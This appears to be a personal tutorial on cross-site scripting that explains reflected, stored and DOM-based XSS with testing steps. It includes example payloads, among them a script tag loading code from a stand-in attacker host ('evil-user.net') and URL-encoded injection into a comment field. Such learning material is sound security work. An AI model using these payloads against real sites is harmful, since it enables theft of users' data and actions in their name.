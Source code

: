 XSS(Cross-Site Scripting)

XSS is the type of vulnerability in which an attacker add a malicious script into the browser side script through an input field which then when executed by a diffrent user while visitng the same page can lead to exposure of data.

2 things that an attacker must look out for before performing an XSS is

1.Lookout for the location where the malicious code appears
2.How the webpage parses the input provided by the user


Supppose in a website there is a field which lets a user add a comment,then an attacker can add something like

<script src=http://evil-user.net/badcode> </script>

The wesbite does not parse this data or properly encode it,so when a user visits that particular page,then the code provided by the attacker may run on it.Depending on what the script does or how the page parses the data,lot of information could be disclosed.

Depending upon how the XSS code is executed ,the XSS is classified into 3 types.


1.Reflected XSS- when the code comes from the HTTP requests
2.Stored XSS- when the code is stored in the database
3.DOM Based XSS- when the code is exists in client-side code.(DOM(Document Object Model) architecture)



#REFLECTED CROSS SITE SCRIPTING

This type of XSS occurs when the data is parsed through the HTTP request and embeds the input into immediate response in an unsafe way.

Suppose in a site there is an input field which is then parsed through the web URL,something like this

http://vulnerable_site.com/?input=

and the input is parsed as 

<p>input= 'your input' </p>

if the data is not parsed properly in the input string,the site becomes vulnerable to the XSS attack,so the attacker can use something simple like

<script>alert(1)</script>

which will create a popup on the screen.thus specially crafted payloads can be inserted into the search field to get more information from the server.an attacker can do any of the following


    1.Perform any action within the application that the user can perform.
    2.View any information that the user is able to view.
    3.Modify any information that the user is able to modify.
    4.Initiate interactions with other application users, including malicious attacks, that will appear to riginate from the initial victim user.


++++++++++++++++++ HOW TO TEST +++++++++++++++++++

1.test every entry point in the website's HTTP request(i.e: from where you could submit an input)
2.try using alphanumeric values ( as they are easier to identify)
3.locate where those values are reflected in the webpage and check if they are being encoded.
4.try using a simple pasload as alert(document.domain) or alert(1) which can be refleted easily	
5.if it's successfull,then create alternative payloads and test the attack in browser




#STORED CROSS SITE SCRIPTING


the type of XSS occurs when a user input is taken from an untrusted source and then is included into the later HTTP request,thus executing malicious code.


Suppose there is a site which lets user to enter the comment for a post.

the HTTP request will look something like


POST /comment HTTP 1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net

so whenever a user visits the page.The following tag gets executed

<p>This post was extremely helpful</p>

Now,if the site doen't properly encode the data or do any other parsing,an attacker could include malicious code by url encoding,so

<script>alert(1)</script> becomes

comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E 

and when a user visits the page,the following tag gets executed.

<p><script>BAD STUFF</script></p>


NOTE:

Different entry point,location where the data is stored and different processing of the input data determines what kind of payload has to be used to exploit the vuln.

++++++++++++++++++ HOW TO TEST +++++++++++++++++++



1.	The first and foremost step is to identify all the entry points...
	It can be anything,from HTTP headers,to user supplied input such as comments or even out of band routes which the attacker can use to inject data into the page
	for ex:an application which displays Twitter feed might contain data which is processed by third party tweets.

2.	The next part is to determine the exit point for the data,for ex user supplied input data may show on logs
	which is only vissible to certain users.

To identify the input and exit points for a stored XSS for each and every permutation is feasible only for a few pages,but for more than that one needs to use automated tools.

One of more realistic way is to supply an user input and seeing the response of it.One can look out for the instances where the user input is shown such as comments in blog posts and all and seeing whether the input is actually stored or reflected instantly.
After the link between entry point and exit point has been established one needs to manually test the particular application process for the XSS and figure out whether the data is actually being stored and then testing out the different payloads.


#DOM BASED CROSS SITE SCRIPTING


DOM basex XSS occurs when a website takes data from an user-controlled input and passes it to a sink that supports dynamic code execution such as eval() and innerHTMl.to deploy this Vuln, the attacker needs to place the code at a source so that it is propogated to the sink and get executed

+++++++ HOW TO TEST FOR DOM XSS +++++++

the testing can be done through burpsuite XSS scanner, but manually one needs to identify the possible source and sinks 


### FOR HTML TAGS ###


TO test for DOM based XSS, an attacker can use (location.search) and then using browser developer tools one has to find out the location where the string is stored and then based on the context, the payload has to be refined further.

For ex: if the input string is shown with a double quote, you can use another pair of double quote to escape from the encoding.


### FOR JAVA SCRIPT ###

Identifying DOM based XSS for Java script is hard as comapred to HTML tags, It's not  necessarily that the JS code is shown on the browser.For each input string one must first need to find the instance of it of where it is being used
Once you've found where the source is being read, you can use the JavaScript debugger to add a break point and follow how the source's value is used. You might find that the source gets assigned to other variables. If this is the case, you'll need to use the search function again to track these variables and see if they're passed to a sink. When you find a sink that is being assigned data that originated from the source, you can use the debugger to inspect the value by hovering over the variable to show its value before it is sent to the sink. Then, as with HTML sinks, you need to refine your input to see if you can deliver a successful XSS attack. 



In princicple to execute a DOM based XSS one need to identify the path between a source and a sink, different source and sinks have different properties and behaviour which can affect the DOM based XSS.


Covering all this is not within the scope of this, to further read about it, One is suggested to read the material from sites like portswigger.
